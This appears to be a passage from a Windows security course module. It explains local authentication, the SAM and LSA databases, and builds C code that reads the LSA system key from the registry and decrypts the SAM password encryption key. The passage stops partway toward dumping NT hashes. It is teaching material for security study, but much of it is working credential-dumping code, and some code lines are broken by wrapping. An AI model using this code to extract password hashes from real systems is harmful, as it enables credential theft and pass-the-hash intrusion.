



Before being allowed to interact with a Windows system, a user must prove their identity by authenticating. Authentication is the process of verifying the identity of a person or object. To accommodate different authentication scenarios, Windows supports multiple types of authentication, which vary in length and complexity.
Interactive authentication is used to grant access to both local and domain resources. It begins when a user supplies a set of credentials (e.g. password, smart card, certificate) and, if successful, ends with the creation of an access token.
An access token serves as the security context of a process or thread and contains information such as the identity and privileges of the user. When interacting with a securable object, the system uses the token during to determine whether the user has sufficient rights to perform the requested action. An object is considered securable if it has a security descriptor, which is a data structure containing security information about the object. This information includes a discretionary access control list (DACL), which defines who has access to the object and their access level.
For the purpose of authentication, Windows uses a domain. A domain associates a set of users and groups with a policy, which governs the actions they can perform and the resources they can access. It also provides management infrastructure for these entities, including logon infrastructure. Domain architecture is complex enough to warrant an entire course, so we will start by familiarizing ourselves with the authentication process of the simplest form of a domain: the local domain.
Although domains are often associated with enterprise networks, every computer, whether stand-alone or part of a network, belongs to a domain known as the local domain. This domain usually goes unnoticed because it shares the same name as the computer itself.
In this scenario, the local security policy is applied to local users and groups. Maintained by the Local Security Authority (LSA), it includes information such as:
Account rights - The privileges assigned to a user's token when they log in.
Logon rights - What types of authentication a user or group is allowed to perform. For example, they can be used to deny a user from authenticating over the network.
Security auditing policy - Governs which events will be recorded in the event log and the conditions under which they will be recorded, such as success or failure.
The LSA is also responsible for local domain management. To this end, it maintains two databases stored as registry keys: the SAM database and the LSA policy database:
The Security Account Manager (SAM) database contains login information about local groups and users, such as usernames, password hashes, security identifiers (SIDs), and group memberships. When authenticating to the local domain, the LSA calculates a hash of your password and matches it with the one stored in the SAM.
On the other hand, the LSA policy database contains the local security policy described above. We will deep dive into the LSA policy in a later module.
In certain scenarios, an application or service may need to access network resources, such as a file share. This type of authentication uses previously established credentials and is typically transparent unless alternative credentials must be specified. Windows supports multiple network authentication protocols, which we will explore later.
The SAM database is located in the Registry\Machine\SAM and can only be accessed by NT AUTHORITY\SYSTEM. Alternatively, we can bypass access checks via the SeBackupPrivilege privilege. The CanAccessSam function determines if we can access the SAM by first querying the Security Identifier (SID) of the user associated with our process. Then, it constructs the SID of the NT AUTHORITY\SYSTEM account and compares the two. If they are equal, we can simply proceed. Otherwise, we attempt to acquire the SeBackupPrivilege privilege. If we fail, we cannot access the SAM.
First, we will create a helper function that will be used by the CanAccessSam function that checks if the provided SID is that of NT AUTHORITY\SYSTEM. The IsSidLocalSystem function has one parameter Sid which is the user's ID. It then uses RtlAllocateAndInitializeSid to construct NT AUTHORITY\SYSTEM's SID, being S-1-5-18. Finally, a comparison is made using RtlEqualSid which, if true, means that the given SID matches NT AUTHORITY\SYSTEM.
The IsSidLocalSystem function has one parameter, Sid, which is a pointer to the SID that is to be compared to S-1-5-18.
BOOLEAN IsSidLocalSystem(_In_ PSID Sid)
{
//
// We need the NT Identifier Authority, represented by the "5" in
"S-1-5-18", and the Local System RID, which matches "18"
//
PSID LocalSystemSid;
SID_IDENTIFIER_AUTHORITY IdentifierAuthority = SECURITY_NT_AUTHORITY;
NTSTATUS Status =
RtlAllocateAndInitializeSid(&IdentifierAuthority, 1,
SECURITY_LOCAL_SYSTEM_RID, 0, 0, 0, 0, 0, 0, 0, &LocalSystemSid);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not initialize the NT AUTHORITY\\SYSTEM SID: 0x%08lX",
Status);
return FALSE;
}
BOOLEAN Result = RtlEqualSid(Sid, LocalSystemSid);
RtlFreeSid(LocalSystemSid);
return Result;
}
The CanAcccessSam function has one parameter, NtOpenKeyExPointer, which is a function pointer to NtOpenKeyEx. This informs us under what circumstances we are accessing the SAM. If the parameter is not set, we are NT AUTHORITY\SYSTEM and can simply use NtOpenKey to access SAM keys. In the other case, we must use NtOpenKeyEx with the REG_OPTION_BACKUP_RESTORE flag. Since NtOpenKeyEx is only available on Windows 7 and above, we will dynamically resolve it and fail if it is not present.
NTSTATUS CanAccessSam(_Out_
decltype(NtOpenKeyEx)** NtOpenKeyExPointer)
{
//
// Open a handle to the process token.
// You can use the NtCurrentProcessToken pseudo-handle on Windows 8 and
above.
//
HANDLE TokenHandle;
NTSTATUS Status = NtOpenProcessToken(NtCurrentProcess, TOKEN_QUERY,
&TokenHandle);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not open process token: 0x%08lX", Status);
return Status;
}
//
// Query the token user's SID
//
ULONG ReturnLength;
UCHAR Buffer[TOKEN_USER_MAX_SIZE] = { 0 };
PTOKEN_USER UserSid = (PTOKEN_USER)(Buffer);
Status = NtQueryInformationToken(TokenHandle, TokenUser, UserSid,
TOKEN_USER_MAX_SIZE, &ReturnLength);
NtClose(TokenHandle);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not retrieve the user SID of the process token:
0x%08lX", Status);
return Status;
}
//
// If we are not running in the context of local system account,
// our only other hope of accessing the SAM is leveraging NtOpenKeyEx
alongside SeBackupPrivilege
//
if (IsSidLocalSystem(UserSid) == TRUE)
{
return Status;
}
ULONG Privilege = SE_BACKUP_PRIVILEGE;
PVOID State;
Status = RtlAcquirePrivilege(&Privilege, 1, 0, &State);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not acquire the SeBackupPrivilege privilege: 0x%08lX",
Status);
return Status;
}
//
// NtOpenKeyEx only exists on Windows 7 and above.
// On earlier versions of Windows, you can use NtSaveKey in conjuction
with the SeBackupPrivilege privilege to dump the necessary keys to a
file
//
PVOID DllHandle;
UNICODE_STRING DllName = RTL_CONSTANT_STRING(L"ntdll.dll");
Status = LdrGetDllHandle(0, 0, &DllName, &DllHandle);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not get a handle to NTDLL: 0x%08lX", Status);
return Status;
}
ANSI_STRING ProcedureName = RTL_CONSTANT_ANSI_STRING("NtOpenKeyEx");
Status = LdrGetProcedureAddress(DllHandle, &ProcedureName, 0,
(PVOID*)(NtOpenKeyExPointer));
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not find NtOpenKeyEx: 0x%08lX", Status);
}
return Status;
}
Windows stores the MD4 hash of each local user's password. This hash is commonly known as the NT hash. For compatibility reasons, Windows used to store an additional LAN Manager (LM) hash. This feature has been disabled by default since Windows Vista.
Unfortunately, dumping NT hashes is not trivial as they are subject to multiple layers of obfuscation: First, the NT hash is encrypted with the DES algorithm where the key is the relative identifier (RID) of the corresponding user. The RID is a unique number assigned to each security principle (such as a user or group) within a domain; in this scenario, the local domain. Next, the DES-encrypted hash is encrypted using the password encryption key (PEK). The PEK, in turn, is encrypted using the LSA system key.
Access to these hashes is useful because the weak hashing algorithm makes them easily crackable. Nonetheless, you can use pass-the-hash to perform network authentication without knowing the plaintext password. This technique will be explored in a later module.
As mentioned earlier, the first step in retrieving NT hashes is
acquiring the LSA system key. This 16-byte key is divided among the ClassName
attribute of four registry keys, with each key containing four bytes of
the LSA system key. All of these keys are subkeys of the LSA
configuration key, which is in \Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\. The specific subkeys are:
\Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\JD
\Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\Skew1
\Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\GBG
\Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\Data
In addition, a series of permutations must be performed on the key's
bytes to achieve its true value. Note that the LSA system key differs
from system to system.
This process is encapsulated in the GetLsaSystemKey function, which opens a handle to each one of the keys described above, queries their class name before using wcstoul to convert it into a 4 byte integer. If it succeeds in constructing the 16-byte key, it will set each byte of SystemKey buffer according to the permutations, giving us the LSA system key.
The GetLsaSystemKey function has one parameter, SystemKey, which is a pointer to a 16-byte buffer that will receive the LSA system key.
NTSTATUS GetLsaSystemKey(_Out_ PUCHAR
SystemKey)
{
//
// Open a handle to the LSA configuration key
//
HANDLE LsaKey;
UNICODE_STRING KeyName =
RTL_CONSTANT_STRING(L"\\Registry\\Machine\\SYSTEM\\CurrentControlSet\
\Control\\Lsa\\");
OBJECT_ATTRIBUTES KeyAttributes;
InitializeObjectAttributes(&KeyAttributes, &KeyName,
OBJ_CASE_INSENSITIVE, 0, 0)
NTSTATUS Status = NtOpenKey(&LsaKey, KEY_ENUMERATE_SUB_KEYS,
&KeyAttributes);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not open a handle to the LSA configuration key:
0x%08lX", Status);
return Status;
}
//
// The 16-byte key is split between four parts, in the ClassName value
of the JD, Skew1, GBG and Data registry keys
//
UNICODE_STRING KeyNames[]{ RTL_CONSTANT_STRING(L"JD"),
RTL_CONSTANT_STRING(L"Skew1"), RTL_CONSTANT_STRING(L"GBG"),
RTL_CONSTANT_STRING(L"Data") };
HANDLE KeyHandle;
UCHAR KeyParts[16];
ULONG ResultLength;
KeyAttributes.RootDirectory = LsaKey;
for (UCHAR Index = 0; Index < 4; Index++)
{
//
// Open a handle to the subkey
//
KeyAttributes.ObjectName = &KeyNames[Index];
Status = NtOpenKey(&KeyHandle, KEY_QUERY_VALUE,
&KeyAttributes);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not open a handle to the %wZ key: 0x08lX",
KeyAttributes.ObjectName, Status);
break;
}
//
// Query its class name
//
UCHAR Buffer[100] = { 0 };
PKEY_NODE_INFORMATION NodeInformation =
(PKEY_NODE_INFORMATION)(Buffer);
Status = NtQueryKey(KeyHandle, KeyNodeInformation, NodeInformation,
100, &ResultLength);
NtClose(KeyHandle);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not open a handle to the %wZ key: 0x08lX",
KeyAttributes.ObjectName, Status);
break;
}
//
// Since the class name is a string, we need to use wcstoul to convert
it to an unsigned long.
// We then use bswap32 to reverse the byte order, accounting for
endianess.
//
*(PULONG)(KeyParts + Index * 4) =
_byteswap_ulong(wcstoul((PWCHAR)(Buffer +
NodeInformation->ClassOffset), 0, 16));
}
//
// Permutate the key parts in order to generate the final key
//
if (NT_SUCCESS(Status))
{
SystemKey[0] = KeyParts[8];
SystemKey[1] = KeyParts[5];
SystemKey[2] = KeyParts[4];
SystemKey[3] = KeyParts[2];
SystemKey[4] = KeyParts[11];
SystemKey[5] = KeyParts[9];
SystemKey[6] = KeyParts[13];
SystemKey[7] = KeyParts[3];
SystemKey[8] = KeyParts[0];
SystemKey[9] = KeyParts[6];
SystemKey[10] = KeyParts[1];
SystemKey[11] = KeyParts[12];
SystemKey[12] = KeyParts[14];
SystemKey[13] = KeyParts[10];
SystemKey[14] = KeyParts[15];
SystemKey[15] = KeyParts[7];
}
NtClose(LsaKey);
return Status;
}
Equipped with the LSA system key, we can decrypt the password encryption key. The PEK is stored in the F value of the \Registry\Machine\SAM\SAM\Domains\Account registry key which contains the domains' Fixed
attributes. These attributes are "fixed" because they are present on
each domain, regardless of configuration. Some attributes have different
meanings if the computer is a domain controller. For now, however, we
will focus on the attributes relevant to the local domain.
The GetPasswordEncryptionKey function opens a handle on the Account key, queries the F value and uses PrintDomainFixedData the print domain fixed attributes to the console. Finally, it will use the LSA system key to decrypt the PEK using the DecryptPasswordEncryptionKey function. These two functions will be explained later in the module.
The GetPasswordEncryptionKey function has three parameters:
LsaSystemKey - The LSA system key, obtained by calling GetLsaSystemKey.
PasswordEncryptionKey - A pointer to a 16-byte buffer that will receive the PEK.
OpenKeyEx - The function pointer to NtOpenKeyEx. If the pointer is null, then we know that we are NT AUTHORITY\SYSTEM and can use NtOpenKey. Otherwise, we must use the received function pointer.
UNICODE_STRING FixedAttributesValueName =
RTL_CONSTANT_STRING(L"F");
NTSTATUS GetPasswordEncryptionKey(_In_ PUCHAR LsaSystemKey, _Out_ PUCHAR
PasswordEncryptionKey, _In_ decltype(NtOpenKeyEx)* OpenKeyEx)
{
//
// Open a handle to the "Account" key, which holds information about
the local domain
//
HANDLE AccountKey;
UNICODE_STRING KeyName =
RTL_CONSTANT_STRING(L"\\Registry\\Machine\\SAM\\SAM\\Domains\\Account");
OBJECT_ATTRIBUTES KeyAttributes;
InitializeObjectAttributes(&KeyAttributes, &KeyName,
OBJ_CASE_INSENSITIVE, 0, 0)
NTSTATUS Status;
if (OpenKeyEx == 0)
{
Status = NtOpenKey(&AccountKey, KEY_READ, &KeyAttributes);
}
else
{
Status = OpenKeyEx(&AccountKey, KEY_READ, &KeyAttributes,
REG_OPTION_BACKUP_RESTORE);
}
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not open a handle to the SAM account key: 0x%08lX",
Status);
return Status;
}
do
{
//
// Query the value of the "F" entry. It contains the *F*ixed
attributes of the local domain; they are "fixed" because they are always
present, regardless of the configuration
//
ULONG ResultLength;
Status = NtQueryValueKey(AccountKey, &FixedAttributesValueName,
KeyValueFullInformation, 0, 0, &ResultLength);
if (Status != STATUS_BUFFER_TOO_SMALL)
{
wprintf(L"Could not query the value of the F entry: 0x%08lX",
Status);
break;
}
PKEY_VALUE_FULL_INFORMATION KeyValue =
(PKEY_VALUE_FULL_INFORMATION)(HeapAlloc(GetProcessHeap(),
HEAP_ZERO_MEMORY, ResultLength));
if (KeyValue == 0)
{
Status = STATUS_INSUFFICIENT_RESOURCES;
break;
}
Status = NtQueryValueKey(AccountKey, &FixedAttributesValueName,
KeyValueFullInformation, KeyValue, ResultLength, &ResultLength);
if (NT_SUCCESS(Status))
{
PSAM_DOMAIN_FIXED_DATA DomainFixedData{
(PSAM_DOMAIN_FIXED_DATA)((PUCHAR)(KeyValue) + KeyValue->DataOffset)
};
//
// Print the domain fixed data
//
PrintDomainFixedData(DomainFixedData);
//
// Use the LSA system key to decrypt the PEK
//
Status = DecryptPasswordEncryptionKey(LsaSystemKey, DomainFixedData,
PasswordEncryptionKey);
}
HeapFree(GetProcessHeap(), 0, KeyValue);
} while (FALSE);
NtClose(AccountKey);
return Status;
}
To further our understanding of the data that the SAM stores for each domain, we print it out using the PrintDomainFixedData
function. The aforementioned function receives a pointer to the
structure describing the domain's fixed attributes and prints them to
the console in a readable format. The function has one parameter, DomainFixedData, which is a pointer to a SAM_DOMAIN_FIXED_DATA, containing the fixed attributes of a domain
VOID PrintDomainFixedData(_In_
PSAM_DOMAIN_FIXED_DATA DomainFixedData)
{
wprintf(L"============================================\n"
L"|| Domain fixed data ||\n"
L"============================================\n\n");
wprintf(L"Version: %hu\n", DomainFixedData->Version);
//
// The number of modifications made to the domain, such as a new user
being added
//
wprintf(L"DomainModifiedCount: %lu\n",
DomainFixedData->DomainModifiedCount.QuadPart);
//
// The time of creation of the domain
//
SYSTEMTIME SystemTime;
FileTimeToSystemTime((PFILETIME)(&DomainFixedData->CreationTime),
&SystemTime);
wprintf(L"CreationTime: %lu/%lu/%lu %lu:%lu:%lu\n", SystemTime.wDay,
SystemTime.wMonth, SystemTime.wYear, SystemTime.wHour,
SystemTime.wMinute, SystemTime.wSecond);
//
// The minimum and maximum time before a password change is required
//
wprintf(L"Minimum password age: %lu seconds\n",
DomainFixedData->MinPasswordAge.QuadPart > 0 ?
DomainFixedData->MinPasswordAge.QuadPart / -10000000 : 0);
wprintf(L"Maximum password age: %lu seconds\n",
DomainFixedData->MaxPasswordAge.QuadPart > 0 ?
DomainFixedData->MaxPasswordAge.QuadPart / -10000000 : 0);
//
// Tracks the next RID available to be assigned to a security principal
(such as a user or a group) within a domain.
// This value is incremented each time a new security principal is
created in the domain. It ensures that each principal receives a unique
RID
//
wprintf(L"Next RID: %lu\n", DomainFixedData->NextRid);
//
// The amount of time an interactive logon session is allowed to
persist
//
wprintf(L"Force logoff: %lu seconds\n",
DomainFixedData->ForceLogoff.QuadPart > 0 ?
DomainFixedData->ForceLogoff.QuadPart / -10000000 : 0);
//
// LockoutThreshold represents the number of failed password attempts
in an interval of LockoutObservationWindows seconds before
// an account is locked out for LockoutDuration seconds
//
wprintf(L"Lockout threshold: %lu attempts\n",
DomainFixedData->LockoutThreshold);
wprintf(L"Lockout observation windows: %lu seconds\n",
DomainFixedData->LockoutObservationWindow.QuadPart > 0 ?
DomainFixedData->LockoutObservationWindow.QuadPart / -10000000 : 0);
wprintf(L"Lockout duration: %lu seconds\n",
DomainFixedData->LockoutDuration.QuadPart > 0 ?
DomainFixedData->LockoutDuration.QuadPart / -10000000 : 0);
//
// The number of updates made to the domain up to the last time a
domain controller was promoted within the domain
//
wprintf(L"ModifiedCountAtLastPromotion: %lu\n",
DomainFixedData->ModifiedCountAtLastPromotion);
//
// Bit field describing the password policy
//
wprintf(L"Password properties:\n");
wprintf(L" - The password %s complexity requirements\n",
DomainFixedData->PasswordProperties & DOMAIN_PASSWORD_COMPLEX ?
L"has" : L"does not have");
wprintf(L" - The password %s be changed without logging on\n",
DomainFixedData->PasswordProperties &
DOMAIN_PASSWORD_NO_ANON_CHANGE ? L"cannot" : L"can");
wprintf(L" - The client %s use a protocol that prevents the DC from
getting the plaintext password\n",
DomainFixedData->PasswordProperties &
DOMAIN_PASSWORD_NO_CLEAR_CHANGE ? L"must" : L"does not have to");
wprintf(L" - The built-in administrator account %s be locked out from
network logons\n", DomainFixedData->PasswordProperties &
DOMAIN_LOCKOUT_ADMINS ? L"can" : L"cannot");
wprintf(L" - Passwords %s stored in plaintext\n",
DomainFixedData->PasswordProperties &
DOMAIN_PASSWORD_STORE_CLEARTEXT ? L"are" : L"are not");
wprintf(L" - The machine account password %s automatically changed
every week\n", DomainFixedData->PasswordProperties &
DOMAIN_REFUSE_PASSWORD_CHANGE ? L"is not" : L"is");
wprintf(L"Minimum password length: %lu\n",
DomainFixedData->MinPasswordLength);
//
// The number of previous passwords saved in the history list. A new
password cannot match any of the passwords in this list
//
wprintf(L"Password history length: %lu\n",
DomainFixedData->PasswordHistoryLength);
//
// Indicates whether the server is enabled in response to MS-SAMR
calls. Ignored in modern implementations
//
wprintf(L"DomainServerState: %s\n",
DomainFixedData->DomainServerState == DomainServerEnabled ?
L"Enabled" : L"Disabled");
//
// Specifies the role of a domain controller in the domain. Irrelevant
in modern Active Directory as all domain controllers are functionally
equivalent.
//
wprintf(L"DomainServerRole: %s\n", DomainFixedData->DomainServerRole
== DomainServerRolePrimary ? L"Primary" : L"Backup");
//
// Only relevant for the discontinued Microsoft LAN Manager OS
//
wprintf(L"UasCompatibilityRequired: %lu\n",
DomainFixedData->UasCompatibilityRequired);
}
The next step is to decrypt the PEK. On older versions of Windows,
the PEK is encrypted using RC4 with the key being an MD5 hash derived
from a concatenation of an initialization vector, along with two fixed
strings and the LSA system key. In Windows 10 version 1607, the cipher
is changed to AES-128-CBC with the LSA system key taking the place of
the AES key. Keeping this in mind, let us first create a helper function
that decrypts data using AES-128. The Aes128Decrypt function uses the WinCrypt API to AES-128 decrypt the specified ciphertext in-place. It has the following parameters:
Key - A pointer to a 16-byte key.
Iv - A pointer to a 16-byte IV.
Ciphertext - A pointer to the ciphertext which is to be
decrypted. Since decryption is performed in-place, the size of this
buffer must be aligned to 16 bytes.
CiphertextLength - The size of the Ciphertext buffer, in bytes.
BOOLEAN Aes128Decrypt(_In_ PUCHAR Key, _In_ PUCHAR Iv, _Inout_ PUCHAR Ciphertext, _Inout_ ULONG CiphertextLength)
{
HCRYPTPROV Provider;
BOOL Result = CryptAcquireContextA(&Provider, 0, 0, PROV_RSA_AES, CRYPT_VERIFYCONTEXT);
if (Result == FALSE)
{
wprintf(L"Cannot acquire handle to the AES crypto provider: %lu", GetLastError());
return FALSE;
}
HCRYPTKEY KeyHandle = 0;
do
{
//
// The key blob header is followed in memory by the size of the key, in bytes, and the key itself
//
UCHAR Buffer[AES_KEY_BLOB_SIZE];
BLOBHEADER* KeyBlob = (BLOBHEADER*)(Buffer);
KeyBlob->bType = PLAINTEXTKEYBLOB;
KeyBlob->bVersion = CUR_BLOB_VERSION;
KeyBlob->reserved = 0;
KeyBlob->aiKeyAlg = CALG_AES_128;
*(PULONG)(Buffer + sizeof(BLOBHEADER)) = AES_KEY_SIZE;
RtlCopyMemory(Buffer + sizeof(BLOBHEADER) + sizeof(ULONG), Key, AES_KEY_SIZE);
Result = CryptImportKey(Provider, Buffer, AES_KEY_BLOB_SIZE, 0, 0, &KeyHandle);
if (Result == FALSE)
{
wprintf(L"Could not import the AES key: %lu", GetLastError());
break;
}
//
// Set CBC mode
//
ULONG Mode = CRYPT_MODE_CBC;
Result = CryptSetKeyParam(KeyHandle, KP_MODE, (PUCHAR)(&Mode), 0);
if (Result == FALSE)
{
wprintf(L"Could not set the AES mode to CBC: %lu", GetLastError());
break;
}
//
// Set the IV
//
Result = CryptSetKeyParam(KeyHandle, KP_IV, Iv, 0);
if (Result == FALSE)
{
wprintf(L"Could not set the IV: %lu", GetLastError());
break;
}
//
// Decrypt the ciphertext
//
Result = CryptDecrypt(KeyHandle, 0, TRUE, 0, Ciphertext, &CiphertextLength);
if (Result == FALSE)
{
wprintf(L"Could not decrypt the ciphertext: %lu", GetLastError());
}
} while (FALSE);
if (KeyHandle != 0)
{
CryptDestroyKey(KeyHandle);
}
CryptReleaseContext(Provider, 0);
return Result;
}
The DecryptPasswordEncryptionKey function reads the PEK version from the respective domain attribute, specifically DomainFixedData->PasswordEncryptionKey.
Depending on the version, a different decryption routine is performed,
as explained above. If decryption is successful, the PEK is copied into
the PasswordEncryptionKey buffer.
LsaSystemKey - The LSA system key, obtained by calling GetLsaSystemKey.
DomainFixedData - A pointer to a SAM_DOMAIN_FIXED_DATA containing the fixed attributes of a domain, including the PEK.
PasswordEncryptionKey - A pointer to a 16-byte buffer that will receive the PEK.
CHAR String1[] =
"!@#$%^&*()qwertyUIOPAzxcvbnmQQQQQQQQQQQQ)(*@&%";
CHAR String2[] = "0123456789012345678901234567890123456789";
BOOLEAN DecryptPasswordEncryptionKey(_In_ PUCHAR LsaSystemKey, _In_
PSAM_DOMAIN_FIXED_DATA DomainFixedData, _Out_ PUCHAR
PasswordEncryptionKey)
{
switch (DomainFixedData->PasswordEncryptionKey.Version)
{
case 1:
{
//
// Create the RC4 key. Fortunately NTDLL exports MD5 function
//
MD5_CTX Md5Context;
MD5Init (&Md5Context);
MD5Update(&Md5Context,
DomainFixedData->PasswordEncryptionKey.Rc4.Salt, 16);
MD5Update(&Md5Context, String1, sizeof(String1));
MD5Update(&Md5Context, LsaSystemKey, SYSTEM_KEY_SIZE);
MD5Update(&Md5Context, String2, sizeof(String2));
MD5Final (&Md5Context);
//
// Use SystemFunction033 for RC4 decryption
//
STRING Data;
Data.Length = Data.MaximumLength = PEK_SIZE;
Data.Buffer = DomainFixedData->PasswordEncryptionKey.Rc4.Key;
STRING Key;
Key.Length = Key.MaximumLength = MD5_DIGEST_LENGTH;
Key.Buffer = Md5Context.Digest;
NTSTATUS Status = SystemFunction033(&Data, &Key);
if (NT_SUCCESS(Status))
{
RtlCopyMemory(PasswordEncryptionKey, Data.Buffer, Data.Length);
return TRUE;
}
wprintf(L"Cannot decrypt the PEK: 0x%08lX", Status);
return FALSE;
}
case 2:
{
//
// Decryption is done in-place so we will copy the decrypted key into
the PasswordEncryptionKey buffer
//
BOOLEAN Result = Aes128Decrypt(LsaSystemKey,
DomainFixedData->PasswordEncryptionKey.Aes.Iv,
DomainFixedData->PasswordEncryptionKey.Aes.Key,
DomainFixedData->PasswordEncryptionKey.Aes.KeyLength);
if (Result == TRUE)
{
RtlCopyMemory(PasswordEncryptionKey,
DomainFixedData->PasswordEncryptionKey.Aes.Key, 16);
}
return Result;
}
default:
{
wprintf(L"Invalid PEK version: %lu",
DomainFixedData->PasswordEncryptionKey.Version);
return FALSE;
}
}
}
Now that we have the PEK, we can decrypt all hashes present on the
system. For each user in the local domain, there is a subkey of \Registry\Machine\SAM\SAM\Domains\Account\Users named after the user's RID. For example, the Administrator account, which always has a RID of 500, corresponds to the \Registry\Machine\SAM\SAM\Domains\Account\Users\000001F4 key.
Alongside the per-user subkeys, exists the Names subkey.
This key contains an entry for each user in the local domain, with each
subkey named after the corresponding user. The default value for each
of these them is set to the user's RID. Following the scenario above, \Registry\Machine\SAM\SAM\Domains\Account\Users\Names\Administrator has a default value of 0x1F4.
Equipped with this information, we can form a plan to dump all the password hashes on the system:
We will iterate through all subkeys of \Registry\Machine\SAM\SAM\Domains\Account\Users and query the F value. Much like the domain fixed attributes, the user fixed attributes contain information stored for each user in the local domain.
Next, we will query the V value, which contains the Variable
user attributes. They are "variable" because, unlike the fixed
attributes, not all of them are present for each local user. The
variable attributes are prefixed by an attribute index table, describing the length of each attribute and the offset from the end of the table (the Data
member of the structure) to the data itself. If an attribute is not
present, its corresponding entry in the attribute table will have Offset and Length set to 0. For example, we can determine if the LM hash is present by checking if LMHash->Length is not 0.
typedef struct _ATTRIBUTE_TABLE_ENTRY
{
ULONG Offset;
ULONG Length;
ULONG Reserved;
} ATTRIBUTE_TABLE_ENTRY, * PATTRIBUTE_TABLE_ENTRY;
typedef struct _SAM_USER_VARIABLE_DATA
{
ATTRIBUTE_TABLE_ENTRY Reserved;
ATTRIBUTE_TABLE_ENTRY UserName;
ATTRIBUTE_TABLE_ENTRY FullName;
ATTRIBUTE_TABLE_ENTRY Comment;
ATTRIBUTE_TABLE_ENTRY UserComment;
ATTRIBUTE_TABLE_ENTRY Reserved2;
ATTRIBUTE_TABLE_ENTRY Homedir;
ATTRIBUTE_TABLE_ENTRY HomedirConnect;
ATTRIBUTE_TABLE_ENTRY ScriptPath;
ATTRIBUTE_TABLE_ENTRY ProfilePath;
ATTRIBUTE_TABLE_ENTRY Workstations;
ATTRIBUTE_TABLE_ENTRY HoursAllowed;
ATTRIBUTE_TABLE_ENTRY Reserved3;
ATTRIBUTE_TABLE_ENTRY LMHash;
ATTRIBUTE_TABLE_ENTRY NTLMHash;
ATTRIBUTE_TABLE_ENTRY NTLMHistory;
